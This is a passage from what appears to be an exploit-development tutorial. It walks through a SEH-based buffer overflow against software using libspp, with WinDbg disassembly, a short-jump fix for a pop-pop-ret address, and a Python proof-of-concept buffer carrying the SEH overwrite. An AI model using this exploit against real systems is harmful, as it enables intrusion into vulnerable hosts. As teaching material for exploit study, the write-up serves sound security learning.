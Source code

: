 ```bash
0081ff55 43              inc     ebx
0081ff56 43              inc     ebx
0081ff57 43              inc     ebx
0081ff58 43              inc     ebx
```

We can see that the bytes composing the P/P/R address are translated to a "lock mov byte" instruction.

The instruction uses part of our buffer as a destination address to write the content of the AL register.

As this memory address isn't mapped, once executed, it will trigger another access violation and break our exploit.

To overcome this we can use Short Jump to redirect the execution flow directly after this instruction.

After had single step through the P/P/R instructions, let's assemble the short jump and get it's opcodes.

```bash
0:009> dds eip L4
0081ff44  41414141
0081ff48  1015a2f0 libspp!pcre_exec+0x16460 # We should execute this.
0081ff4c  43434343							# We want to execute this.
0081ff50  43434343

0:009> a
0081ff44 jmp 0x0081ff4c
jmp 0x0081ff4c
0081ff46 

0:009> u eip L5
0081ff44 eb06            jmp     0081ff4c # Our short jump
0081ff46 41              inc     ecx
0081ff47 41              inc     ecx
0081ff48 f0a215104343    lock mov byte ptr ds:[43431015h],al
0081ff4e 43              inc     ebx

0:009> dds eip L3
0081ff44  414106eb # Our short jump
0081ff48  1015a2f0 libspp!pcre_exec+0x16460
0081ff4c  43434343

```

Great, now we can update our PoC to include it.

```python
size = 1000

inputBuffer = b"\x41" * 124
inputBuffer += pack("<L", (0x06eb9090)) # (Short Jump Address)
inputBuffer += pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
inputBuffer += b"\x41" * (size - len(inputBuffer))
```
